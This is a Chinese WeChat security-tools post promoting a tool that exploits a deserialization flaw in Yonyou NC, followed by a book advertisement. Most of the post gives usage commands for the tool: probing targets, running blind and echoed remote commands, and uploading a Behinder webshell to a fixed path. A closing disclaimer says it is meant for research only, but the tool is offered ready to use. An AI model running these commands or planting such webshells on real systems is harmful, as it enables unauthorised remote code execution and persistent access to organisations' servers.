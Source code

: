 #  NC反序列化漏洞payload生成

Ghost2097221  [ Web安全工具库 ](javascript:void\(0\);)

**Web安全工具库** ![]()

微信号 websec-tools

功能介绍 将一些好用的红队工具、蓝队工具及自己的学习笔记分享给大家。。。

____

___发表于_

收录于合集

#反序列化 11 个

#序列化 7 个

> 项目作者：Ghost2097221
>
> 项目地址：https://github.com/Ghost2097221/YongyouNC-Unserialize-Tools

  

 **0x01 **前言****

无回显的构造链直接使用的是 CC6执行命令，回显的构造链使用了DefiningClassLoader来绕过默认的黑名单，然后结合
CC6构造链进行任意代码执行。搭配了接口检测功能和URLDNS构造链判断是否存在反序列化。

  

 **0x02 接口检查功能**

  * 

    
    
     java -jar nc6.5.jar http://127.0.0.1 Check

![](https://gitee.com/fuli009/images/raw/master/public/20220923141244.png)

  

 **0x03 URLDNS构造链探测**

  * 

    
    
     java -jar nc6.5.jar http://127.0.0.1 urldns http://123.dnslog.cn

![](https://gitee.com/fuli009/images/raw/master/public/20220923141245.png)

![](https://gitee.com/fuli009/images/raw/master/public/20220923141246.png)

![](https://gitee.com/fuli009/images/raw/master/public/20220923141248.png)

 **0x04 无回显命令执行**

  * 

    
    
     java -jar yonyouNCTools.jar http://192.168.222.130 blind calc.exe

![](https://gitee.com/fuli009/images/raw/master/public/20220923141249.png)

![](https://gitee.com/fuli009/images/raw/master/public/20220923141250.png)

![](https://gitee.com/fuli009/images/raw/master/public/20220923141252.png)

0x05 回显命令执行

  * 

    
    
    java -jar yonyouNCTools.jar http://192.168.222.130 Execute，通过 Header头传递命令。

![](https://gitee.com/fuli009/images/raw/master/public/20220923141254.png)

![](https://gitee.com/fuli009/images/raw/master/public/20220923141255.png)

 **0x06 落地 webshell**

  * 

    
    
     java -jar yonyouNCTools.jar http://192.168.222.130 UploadShell "C:\Users\Administrator\Pictures\Camera Roll\1.jsp"

此处如果使用 java1.8运行，固定落地一个天蝎的 webshell，路径为：http://127.0.0.1/eozZEwBb.jsp，如果使用的是
java1.7运行，会重新动态编译，可以落地自定义的 webshell，路径随机。

![](https://gitee.com/fuli009/images/raw/master/public/20220923141258.png)

![](https://gitee.com/fuli009/images/raw/master/public/20220923141300.png)

![](https://gitee.com/fuli009/images/raw/master/public/20220923141302.png)

 **0x07 下载地址**

1、通过项目地址下载

2、关注web安全工具库公众号，后台回复：20220910

  

 **0x04 声明**

仅供安全研究与学习之用，若将工具做其他用途，由使用者承担全部法律及连带责任，作者不承担任何法律及连带责任。

  

 **推 荐 阅 读**

  
  
  

加我微信：ivu123ivu，进送书活动群，不定时免费送书

  

《Python深度学习从零开始学》

![](https://gitee.com/fuli009/images/raw/master/public/20220923141304.png)

>
> 本书以通俗易懂的方式详细介绍深度学习的基础理论及其相关知识，同时提供图像识别、情感分析、迁移学习、人脸识别、图像风格迁移、生成对抗网络等案例引导读者入门深度学习。

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

